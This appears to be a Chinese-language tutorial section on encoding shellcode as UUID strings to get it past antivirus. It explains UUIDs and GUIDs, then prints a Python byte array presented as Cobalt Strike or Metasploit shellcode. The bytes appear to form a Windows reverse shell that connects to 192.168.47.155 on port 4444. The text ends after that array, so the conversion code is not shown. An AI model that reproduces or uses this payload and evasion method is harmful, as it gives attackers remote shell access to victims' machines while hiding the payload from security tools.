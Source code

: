```cpp
```



# 8.基于uuid

## 什么是UUID

UUID（Universally Unique Identifier，通用唯一识别码）是一种为计算机系统中的所有对象分配一个唯一标识符的软件构建块。UUID 是 128 位的数字，通常由 32 个十六进制(16个字节)数字表示，并由连字符分隔成五个部分，形式为 8-4-4-4-12。例如：

```
550e8400-e29b-41d4-a716-446655440000
```

UUID 的目的是在没有中央协调机构的情况下，能够在分布式系统中生成唯一标识符。这意味着，任何人在任何地方都可以创建一个 UUID，而无需担心与其他人创建的 UUID 冲突。UUID 的设计使得它们的全局唯一性非常高，即使在不同的计算机系统和网络中也能保持唯一性。

UUID 通常用于以下场景：

- 数据库中的主键：用 UUID 作为数据库表的主键，确保每个记录都具有唯一的标识符，避免数据冲突。
- 分布式系统中的对象标识符：在分布式系统中，由于系统组件可能位于不同的计算机或网络上，使用 UUID 作为对象的唯一标识符有助于确保唯一性。
- 会话标识符：在网络应用中，使用 UUID 作为会话标识符可以确保每个会话都有唯一的识别码。
- 临时文件名：当需要创建临时文件时，使用 UUID 作为文件名可以确保不会与现有文件冲突。



## 什么是GUID

GUID（Globally Unique Identifier，全局唯一标识符）是一个 128 位长的数字，用于在软件中为对象分配唯一的标识符。GUID 和 UUID（Universally Unique Identifier）基本上是相同的概念，只是术语上的差别。实际上，GUID 是 UUID 的一种实现。

GUID 通常表示为 32 个十六进制数字，分为五组，用连字符分隔，形式如下：

```
550e8400-e29b-41d4-a716-446655440000
```



## shellcode转uuid

这段代码首先将包含 shellcode 的字节数组进行处理，确保长度是 16 的倍数。然后，将 shellcode 分为 16 字节的块，并为每个块创建一个 UUID，将这些 UUID 存储在一个列表中。最后，将这些 UUID 以 C 语言数组的形式输出

```python
import uuid

#使用cs或msf生成的python类型的shellcode
shellcode = b""
shellcode += b"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x64\x8b\x52"
shellcode += b"\x30\x89\xe5\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28"
shellcode += b"\x0f\xb7\x4a\x26\x31\xff\x31\xc0\xac\x3c\x61\x7c"
shellcode += b"\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49\x75\xef\x52"
shellcode += b"\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
shellcode += b"\x85\xc0\x74\x4c\x01\xd0\x50\x8b\x58\x20\x8b\x48"
shellcode += b"\x18\x01\xd3\x85\xc9\x74\x3c\x31\xff\x49\x8b\x34"
shellcode += b"\x8b\x01\xd6\x31\xc0\xc1\xcf\x0d\xac\x01\xc7\x38"
shellcode += b"\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58"
shellcode += b"\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
shellcode += b"\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b"
shellcode += b"\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12"
shellcode += b"\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00\x00\x68"
shellcode += b"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8"
shellcode += b"\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
shellcode += b"\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x2f"
shellcode += b"\x9b\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50"
shellcode += b"\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97"
```